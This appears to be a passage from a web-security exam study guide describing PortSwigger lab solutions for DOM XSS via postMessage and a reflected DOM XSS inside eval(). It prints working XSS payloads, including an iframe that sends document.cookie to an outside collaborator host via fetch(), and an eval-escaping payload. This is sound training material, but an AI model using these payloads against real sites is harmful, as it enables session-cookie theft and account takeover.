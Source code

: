 ![DOM-XSS AddEventListener JavaScript URL](images/DOM-XSS-AddEventListener-JavaScript-URL.png)  
  
[PortSwigger Lab: DOM XSS using web messages and a JavaScript URL](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)  
  
### DOM XSS AddEventListener Ads Message  

>In the `source code` we ***identify*** the call using ```addEventListener``` and an element id ```ads``` being referenced.  

![Source code web message ads](images/source-code-web-message-ads.png)

> The data within the message gets inserted in "ads" div. Try first the `<img>` one (the basic `<script>alert(1)</script>` does not work):

```html
<iframe src="https://0a2c008c03da3b0683a478c1004a00d1.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print() />','*')">
```
> Once proved, try send cookies to malicious server.
>The ```fetch``` function enclose the collaborator target inside **back ticks**, and when the iframe loads on the victim browser, the `postMessage()` method sends a web message to their home page.  

```html
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://OASTIFY.COM?collector=`+btoa(document.cookie))>','*')">
```  

>Replacing the Burp Lab payload ```print()``` with ```fetch()``` in the above code allow attacker to steal the victim session cookie.  

![AddEventListener Ads Message](images/AddEventListener-Ads-Message.png)  

[PortSwigger Lab: DOM XSS using web messages](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)  

### Reflected DOM XSS  

>In the **Search** function a Reflected DOM-XSS vulnerability is ***identified*** using DOM Invader as being inside an `eval()` function.  

![DOM Invader reflected dom-xss identify](images/dom-invader-reflected-dom-xss-identify.png)  

>***Identify*** that the search JavaScript `source code` on the target, the string is reflected in a JSON response called search-results.
From the Site Map, open the `searchResults.js` file and notice that the JSON response is used with an `eval()` function call.

![Reflected DOM-XSS source-code](images/reflected-dom-xss-source-code.png)

>Testing `\"-alert(1)}//` payload we successfully escape the `eval()`. The attacker then craft an exploit phishing link to the victim with a [cookie stealing payload](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/5cbfeb2a11577ad62a31f72635a000bf5dcce293/payloads/CookieStealer-Payloads.md) hosted on exploit server.  
>Above payload validate that the backslash **\\** is not sanitized, and the JSON data is then send to `eval()`.  Backslash is not escaped correctly and when the JSON response attempts to escape the opening double-quotes character, it adds a **second** backslash. The resulting double-backslash causes the escaping to be effectively **cancelled out**.
